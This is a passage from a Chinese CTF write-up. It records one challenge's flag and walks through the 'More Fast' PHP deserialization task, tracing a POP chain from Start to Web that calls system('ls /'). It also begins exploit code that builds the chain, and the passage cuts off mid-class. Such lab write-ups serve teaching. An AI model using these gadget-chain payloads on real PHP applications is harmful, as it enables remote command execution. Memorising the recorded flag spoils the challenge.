 可以得到flag{4d28ff82-2935-4381-93a8-32eed496d8d4}

![image-20240315160846758](../typora-user-images/image-20240315160846758.png)



### 第二题 More Fast

<img src="../typora-user-images/image-20240315161022126.png" alt="image-20240315161022126" style="zoom:50%;" />

[PHP反序列化入门之常见魔术方法](https://mochazz.github.io/2019/01/29/PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%85%A5%E9%97%A8%E4%B9%8B%E5%B8%B8%E8%A7%81%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95/#sleep)

进入靶机

题目为什么说destruct能早一点触发就好了？网页代码显示就Start有一个析构函数啊，而且内容是die。####

![image-20240315210713539](../typora-user-images/image-20240315210713539.png)

反序列化的题目，看代码执行点应该是在Web这个类中

evil函数     简单的可以$func=system    $var=ls /  ;

那么如何执行Web类中的evil函数呢?

Pwn类中有调用evil函数的   需要调用函数的方式去调用对象以触发魔术方法

可以在Reverse类中去触发这个魔术方法，而在Re类中则需要_get触发，访问不可访问属性值

这个需要在Crypto类中，该对象被作为字符串时可以触发，需要Start

所以有pop链

Start----Crypto----Reverse----Pwn----Web

析构函数确实需要早一点触发，不然toString魔术方法无法正常触发，那就构造失败了

看官方题解，这里构造的代码应该没问题

```php
<?php
class Start{
    public $errMsg;
    public function __construct()
    {
       $this->errMsg=new Crypto();
    }

}
class Pwn{
    public $obj;
    public function __construct()
    {
        $this->obj=new Web();
    }

}

class Reverse{
    public $func;
    public function __construct()
    {
        $this->func=new Pwn();
    }

}

class Web{
    public $func;
    public $var;
```